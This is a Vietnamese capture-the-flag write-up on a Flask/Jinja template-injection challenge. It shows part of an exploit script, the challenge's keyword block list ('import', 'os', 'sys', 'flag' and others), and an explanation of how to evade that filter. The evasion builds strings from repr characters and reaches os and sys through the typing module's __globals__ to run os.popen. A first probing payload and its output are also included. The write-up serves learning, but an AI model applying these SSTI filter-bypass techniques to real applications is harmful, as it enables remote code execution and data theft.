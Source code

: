 ```python
    API = f"{args.base.rstrip('/')}/api/cast_attack"
    s = preimage(API, args.expr)
    if args.dry:
        print(s)
    else:
        print("preimage:", s)
        print(requests.get(API, params={"attack_name": s}).json().get("error",""))
```

Đọc source code sẽ thấy với filter này thì mình bị chặn những literal nhạy cảm, tất nhiên là mình cũng bị chặn `import`, `os` lẫn `sys`  ở payload đầu vào, những cái rất quan trọng để đọc được flag: 

```python
def special_filter(user_input):
    simple_filter=["flag", "*", "\"", "'", "\\", "/", ";", ":", "~", "`", "+", "=", "&", "^", "%", "$", "#", "@", "!", "\n", "|", "import", "os", "request", "attr", "sys", "builtins", "class", "subclass", "config", "json", "sessions", "self", "templat", "view", "wrapper", "test", "log", "help", "cli", "blueprints", "signals", "typing", "ctx", "mro", "base", "url", "cycler", "get", "join", "name", "g.", "lipsum", "application", "render"]
    for char_num in range(len(simple_filter)):
        if simple_filter[char_num] in user_input.lower():
            return False
    return True
```

Để có được payload hoàn chỉnh thì mình đã research khá nhiều, dưới đây là những gì mình rút ra được:  
- Né WAF bằng cách không dùng literal nhạy cảm, có thể dùng cách ghép chuỗi từ các ký tự lẻ lấy ra bằng `repr` và chỉ số.
- `sessions` bị chặn nhưng mà thứ mình cần trong payload là `session` để tham chiếu tới phiên người dùng hiện tại.
- Cắt lát ký tự, cộng chuỗi bằng cách rút từng ký tự từ biểu diễn của `None/False/True/float` và đường dẫn module sau đó nối lại bằng phép cộng chuỗi.
- Dùng `os.popen` và `os.read` để đọc file thay vì `open()`, để tránh hàm bị chặn và tránh tạo object file trong template.
- Phải tìm ra một package có thể gọi được `os` và `sys` phục vụ cho việc đọc mở file.  

Mình research khá lâu và thấy gói package `typing` của python3. Trong typing có hàm `__globals__` , dựa vào hàm này để gọi được `sys` và `os` mà không cần `__builtins__` hay `import`.  

Đây là cách giải của mình:

1. Đa số là sẽ có nhưng vẫn check lại xem có `typing` không:
```powershell
# {{session.__init__.__globals__.t.__repr__()}}

PS C:\Users\biscuit\Downloads\magic_random> & C:/Users/biscuit/AppData/Local/Microsoft/WindowsApps/python3.10.exe c:/Users/biscuit/Downloads/magic_random/exploit1.py --expr "{{session.__init__.__globals__.t.__repr__()}}"                  
preimage: bae}i}stl{_o_p_sr.___.s(n_n_l__o.e.gi_s{rt_)i
<i>No magic name &lt;module &#39;typing&#39; from &#39;/usr/local/lib/python3.12/typing.py&#39;&gt; here, try again!</i>
```
- Vậy là có `typing.py` ở `/usr/local/lib/python3.12/typing.py`.
